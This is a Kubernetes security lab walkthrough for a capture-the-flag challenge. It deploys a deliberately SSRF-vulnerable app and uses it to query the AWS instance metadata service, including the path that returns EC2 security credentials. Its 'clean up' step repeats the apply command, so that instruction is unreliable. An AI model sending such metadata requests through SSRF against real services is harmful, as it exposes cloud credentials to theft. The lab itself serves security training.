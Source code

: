 # K8S Security: Exploiting SSRF in Kubernetes

SSRF (Server Side Request Forgery) has become a very popular attack in cloud native environments.  SSRF allows an attacker to trick the server to make an internal call (usually a 169.254, non addressable IP) to an metadata service.  Metadata services contain all sorts of information about currently running cloud instances and it's used to manage, configure and access other cloud services. 

> Instance metadata is data about your instance that you can use to configure or manage the running instance. **Instance metadata can be accessed at the IP address 169.254.169.254 which is a link-local address and is valid only from the instance.**
> 

The IP block `169.254.0.0/16` is reserved for [link-local IPv4 addresses.](http://tools.ietf.org/html/rfc3927)

[Retrieve instance metadata.](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/instancedata-data-retrieval.html)

[Azure Instance Metadata Service for Windows - Azure Virtual Machines.](https://docs.microsoft.com/en-us/azure/virtual-machines/windows/instance-metadata-service?tabs=windows)

[Storing and retrieving instance metadata.](https://cloud.google.com/compute/docs/storing-retrieving-metadata)

In this challenge, we will deploy an app to our cluster that has an SSRF vulnerability.  We will exploit  the vulnerability to access the metadata service and get the flag.

1. Deploy the challenge.
```
kubectl apply -f 18_deployment_starwars_ssrf.yaml
```

2. Get endpoint of the service.

```
kubectl get svc
```
![service](https://i.postimg.cc/KGShzFqX/18-service1.png)

![service2](https://i.postimg.cc/81YbGzCG/18-service2.png)

```
http://169.254.169.254/latest/meta-data/identity-credentials/ec2/security-credentials/ec2-instance
```

![service3](https://i.postimg.cc/BJkpFBrD/18-service4.png)

![results](https://i.postimg.cc/7qGcjhD3/18-results.png)

[http://169.254.169.254/latest/meta-data/ami-id](http://169.254.169.254/latest/meta-data/ami-id)

![results3](https://i.postimg.cc/vMPGs1Rk/18-results3.png)

3. [Submit the flag.](https://devslop.ctfd.io/challenges#Challenge%2018-11) **Hint available**

4. Clean up.
```
kubectl apply -f 18_deployment_starwars_ssrf.yaml
```
